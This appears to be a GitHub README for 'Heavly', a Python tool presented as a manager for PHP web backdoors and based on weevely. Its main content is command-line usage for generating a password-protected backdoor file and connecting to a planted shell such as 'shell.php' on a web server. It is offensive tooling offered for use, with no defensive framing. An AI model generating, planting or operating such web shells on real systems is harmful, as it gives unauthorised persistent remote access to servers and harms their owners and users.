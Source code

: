 # Heavly
Backdoor web in python

##Presentation
A web backdoor manager in python, using PHP backdoor, based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

###How to generate your backdoor:
```
    ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
###Connecting to the server:
 ```
    heavly ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```
